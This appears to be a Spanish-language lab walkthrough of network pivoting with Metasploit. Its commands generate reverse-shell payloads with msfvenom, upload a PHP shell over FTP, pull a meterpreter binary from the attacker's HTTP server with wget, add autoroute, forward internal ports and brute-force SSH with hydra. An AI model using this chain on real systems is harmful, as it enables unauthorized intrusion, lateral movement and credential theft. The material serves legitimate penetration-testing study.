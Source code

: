 - Tenemos una maquina con el puerto 21 abierto, por ese puerto vamos a subir un payloads para generara una reverse.
```
msfvenom -p php/reverse_php LHOST=(IP_ATACANTE) LPORT=443 -f raw > pwned.php
```

![](../Imagenes/Pasted%20image%2020250112171153.png)

- Entramos en el ftp y usamos el comando ==put== + el nombre de archivo que creamos para poder subirlo.

![](../Imagenes/Pasted%20image%2020250112171319.png)

- Dejamos en escucha y en la URL del navegador ponemos la IP victima / nombre del archivo para entrar.

![](../Imagenes/Pasted%20image%2020250112171424.png)

- Ya estamos dentro, vamos a hacer otra conexión mas estable.
- Para ingresar en la maquina victima la reverse primero se pone ==bash -c==.
- Casi igual que con Windows, vamos a crear un payload en msfvenom para generar un meterpreter en Linux.
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```


![](../Imagenes/Pasted%20image%2020250112172319.png)

- Ahora vamos a compartirlo con la maquina victima levantando un servidor en Python.
```
python3 -m http.server 80
```
- En la sesión ya iniciada que tenemos en la maquina victima usamos el siguiente comando:
```
wget (IP_ATACANTE)/(NOMBRE_FICHERO)
```


![](../Imagenes/Pasted%20image%2020250112172542.png)

- Ahora, vamos a abrir metasploit y crear la sesión de meterpreter.
```
use /multi/handler
```


![](../Imagenes/Pasted%20image%2020250112172732.png)

- Lo configuramos.

![](../Imagenes/Pasted%20image%2020250112172757.png)

- Ingresamos el payload correcto que especificamos en ==msfvenom==, nuestra IP, le damos a run y ejecutamos el archivo virus en la maquina victima.

![](../Imagenes/Pasted%20image%2020250112173002.png)

- Ahora en la maquina victima vamos a darle permiso de ejecución al archivo virus y después ejecutarlo.

![](../Imagenes/Pasted%20image%2020250112173153.png)

- Ya tenemos nuestra sesión meterpreter.

![](../Imagenes/Pasted%20image%2020250112173216.png)

- Si ahora ejecutamos shell y después whoami, vamos a ver que somos usuario ==www-data==, así no se puede hacer Pivoting.

![](../Imagenes/Pasted%20image%2020250112173341.png)

- Tenemos que ser root.
- Para eso tenemos que escalar privilegios en la maquina victima, así que vamos a salir de la sesión interpreter.

![](../Imagenes/Pasted%20image%2020250112173641.png)

- Ahora que somos root.
- Ahora podemos volver al meterpreter.

![](../Imagenes/Pasted%20image%2020250112173831.png)

- Ahora somos root.
- Estando en meterpreter vamos a ejecutar el comando ==ifconfig== , para ver si hay mas maquinas en la red interna.

![](../Imagenes/Pasted%20image%2020250112174107.png)

- Aquí la tenemos.
- Ahora apretamos `ctrl + z` y lo pasamos a segundo plano.

![](../Imagenes/Pasted%20image%2020250112174216.png)

- Si ejecutamos el comando `sessions -l`

![](../Imagenes/Pasted%20image%2020250112174307.png)
- Podemos ver la session interpreter que tiene como ID el 2.
- Ahora ejecutamos el siguiente modulo.
```
use /multi/manage/autoroute
```


![](../Imagenes/Pasted%20image%2020250112174450.png)

- Vamos a configurarlo.

![](../Imagenes/Pasted%20image%2020250112174515.png)

- Aquí solo nos pide SESSION que en este caso seria el numero 2.

![](../Imagenes/Pasted%20image%2020250112174550.png)

- Ejecutamos.

![](../Imagenes/Pasted%20image%2020250112174611.png)

- Ahora el trafico esta enrutado.
- Si ejecutamos el comando `route`, lo vamos a poder ver.

![](../Imagenes/Pasted%20image%2020250112174652.png)

- Están conectadas ambas interfaces de red.
- Ahora hay que conocer las IPS, los HOSTS que están en la red interna.
- Ahora , abrimos otro terminal y usamos este código:
```
nano escaner.sh
```
- Dentro ponemos el siguiente código:
```
#!/bin/bash

for i in {1..255}; do
	timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
	if [ $? -eq 0 ]; then
		echo "El host 10.10.10.$i está activo"
	fi
done
```
- Este comando ejecuta el comando ==ping== generando una traza ismp a cada uno de los posibles hosts que estén dentro de la red interna.
- Ahora lo compartimos con la maquina victima.
- Para eso en msf usamos el comando:
```
sessions -i (numero de sessions)
```


![](../Imagenes/Pasted%20image%2020250112175758.png)

- Aquí ejecutamos shell.
- ejecutamos el comando:
```
wget (IP_ATACANTE)/(ARCHIVO)
```
- Ya lo tendremos en la maquina victima.

![](../Imagenes/Pasted%20image%2020250112175941.png)

- Ahí mismo le damos permiso de ejecución y lo ejecutamos

![](../Imagenes/Pasted%20image%2020250112180107.png)

- Podemos ver las IP que están activas.
- Vamos a usar la IP 10.10.10.7 que es la IP que sabemos que tenemos de una de las maquinas virtuales que abrimos.
- Volvemos a la sesión de interpreter y luego `ctrl + z`

![](../Imagenes/Pasted%20image%2020250112180345.png)

- Ahora usamos un modulo que es para escanear puertos
```
use scanner/portscan/tcp
```


![](../Imagenes/Pasted%20image%2020250112180456.png)

- Lo configuramos.

![](../Imagenes/Pasted%20image%2020250112180527.png)

- Agregamos el RHOSTS.

![](../Imagenes/Pasted%20image%2020250112180639.png)

- Agregamos la IP de la maquina que queremos escanear.
- Ejecutamos.

![](../Imagenes/Pasted%20image%2020250112180715.png)

- Ya sabemos que puertos tiene abiertos.
- Vamos a atacar los puertos 22 y 631.
- Vamos a traernos los 2 puertos a un puertos especifico.
	- Eso lo tenemos que hacer si o si desde la sesión interpreter.
- Para eso vamos a meternos a la session 2.

![](../Imagenes/Pasted%20image%2020250112180923.png)

- Para hacerlo ahora, ocupamos el siguiente comando:
```
portfwd add -l 222 -p 22 -r 10.10.10.7
```


![](../Imagenes/Pasted%20image%2020250112181114.png)

- Ahora vamos a hacer un ssh (con los datos que ya conocíamos de esta maquina)
```
ssh (usuario)@(IP_ATACANTE) -p (PUERTO_QUE_ESCOGIMOS)
```


![](../Imagenes/Pasted%20image%2020250112181337.png)


![](../Imagenes/Pasted%20image%2020250112181402.png)

- Ahora vamos a traer el puerto 631
```
portfwd add -l 5000 -p 631 -r 10.10.10.7
```
- Si nos damos cuenta solo cambian los puertos.

![](../Imagenes/Pasted%20image%2020250112181527.png)

- Si pongo en el URL del navegador:
```
127.0.0.1:5000
```


![](../Imagenes/Pasted%20image%2020250112181635.png)

- Estoy dentro.

- Si quiero hacer un ataque con ==hydra== ocuparía el siguiente comando.
```
hydra -l (NOMBRE) -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
- 222 porque habíamos dejado el puerto 22 en el puerto 222.